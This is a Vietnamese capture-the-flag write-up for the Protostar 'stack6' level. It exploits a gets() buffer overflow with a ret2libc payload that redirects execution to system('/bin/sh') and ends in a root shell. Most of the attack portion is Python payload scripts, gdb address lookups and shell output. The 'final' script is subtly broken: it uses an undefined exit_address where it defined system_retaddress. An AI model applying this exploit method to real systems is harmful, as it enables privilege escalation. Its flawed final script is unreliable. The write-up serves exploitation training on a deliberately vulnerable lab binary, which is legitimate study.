

# **stack6**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

- Phân tích: Trong hàm getpath() có biến ret lấy return address để check, nếu ret >= 0xbf000000 thì gọi hàm _exit() => không thể ghi đè lên return address địa chỉ của stack.

## Vulnerability
gets()

## Exploit
- Sử dụng ret2libc: không cần shell code, thực thi hàm có sẵn trong libc.

- Phân tích stack của hàm getpath():

  

=> ghi đè lên hết buffer và ebp cần 0x4c + 0x4 = 0x50 bytes

- Tìm địa chỉ hàm system trong libc: 
```
(gdb) p system
$11 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```

- 0x50 bytes rác và địa chỉ system, ta sẽ ghi đè được địa chỉ system lên return address của hàm getpath():
```
import struct
padding = 'a'*(0x4c + 0x4)
eip = struct.pack("I", 0xb7ecffb0)

print(padding + eip)
```
- Kết thúc hàm getpath, ta vào được system.
- Khi vào system, system sẽ nghĩ stack như sau:

  

- Hàm system nghĩ rằng đỉnh stack đang chứa return address của nó và đỉnh stack + 0x4 là argument. Do đó, ta cũng có thể quyết định return address của system và arguments của hàm system dùng python script sau:
```
import struct
padding = 'a'*(0x4c + 0x4)
eip = struct.pack("I", 0xb7ecffb0)
system_retaddress = struct.pack("I", 0x........)    #system's return address
argument = struct.pack("I", 0x........)             #system's argument

print(padding + eip + system_retaddress + argument)
```
- Để hàm system gọi shell, ta cần để argument là địa chỉ đến string "/bin/sh":
  - Có thể tạo 1 biến môi trường để chương trình tự động push vào stack. Cách này thì địa chỉ của string có thể bị xê dịch, không cố định.
  - Dùng string "/bin/sh" có sẵn trong thư viện libc. Địa chỉ string /bin/sh cố định.

- Sử dụng lệnh info proc map trong gdb để tìm địa chỉ đầu và cuối của thư viện libc:
```
(gdb) info proc map
process 6731
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0       /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0       /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fe0000 0xb7fe2000     0x2000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
```
- Sử dụng lệnh find [địa chỉ đầu][địa chỉ cuối] pattern để tìm kiếm string "/bin/bash"
```
(gdb) find 0xb7e97000, 0xb7fd9000, "/bin/sh"
0xb7fba23f
1 pattern found.
```
- Kiểm tra:
```
(gdb) x/1s 0xb7fba23f
0xb7fba23f:      "KIND in __gen_tempname\""
```
- ???
- Kiểm tra bằng lệnh strings:
```
user@protostar:/tmp$ strings /lib/libc-2.11.2.so | grep "/bin/sh"
/bin/sh
```
- Có, dùng strings để lấy vị trí của "/bin/sh" trong thư viện:
```
user@protostar:/tmp$ strings -t x /lib/libc-2.11.2.so | grep "/bin/sh"
 11f3bf /bin/sh
```
- Lấy địa chỉ của thư viện được nạp vào khi chạy chương trình + địa chỉ vừa tìm được qua lệnh strings: 0xb7e97000 + 0x11f3bf.
- Kiểm tra lại bằng gdb:
```
(gdb) x/1s 0xb7e97000 + 0x11f3bf
0xb7fb63bf:      "/bin/sh"
```
- OK!
- Thay vào script:
```
import struct
padding = 'a'*(0x4c + 0x4)
eip = struct.pack("I", 0xb7ecffb0)
system_retaddress = struct.pack("I", 0x........)                #system's return address
argument = struct.pack("I", 0xb7e97000 + 0x11f3bf)              #system's argument

print(padding + eip + system_retaddress + argument)
```
- Chạy thử:
```
user@protostar:/opt/protostar/bin$ (python /tmp/script6.py; cat) | ./stack6
input path please: got path aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaac
whoami
root
^C
Segmentation fault
user@protostar:/opt/protostar/bin$ 
```
- Đã lấy được shell root, tuy nhiên khi kết thúc chương trình ta bị segmentation fault do ta đã chọn bừa một địa chỉ cho vào system return address.
- Tìm kiếm địa chỉ hàm exit thay vào, ta sẽ thoát chương trình bình thường. => Final python script: 
```
import struct

padding = 'a'*(0x4c + 0x4)
eip = struct.pack("I", 0xb7ecffb0)
system_retaddress = struct.pack("I", 0xb7ec60c0)
argument = struct.pack("I", 0xb7e97000 + 0x11f3bf)

print(padding + eip + exit_address + argument)
```
- Final run:
```
user@protostar:/opt/protostar/bin$ (python /tmp/script6.py ; cat) | ./stack6
input path please: got path aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa`췿c
whoami
root
^C
user@protostar:/opt/protostar/bin$ 
```

# References
- ret2libc: https://web.ecs.syr.edu/~wedu/Teaching/CompSec/LectureNotes_New/Buffer_Overflow.pdf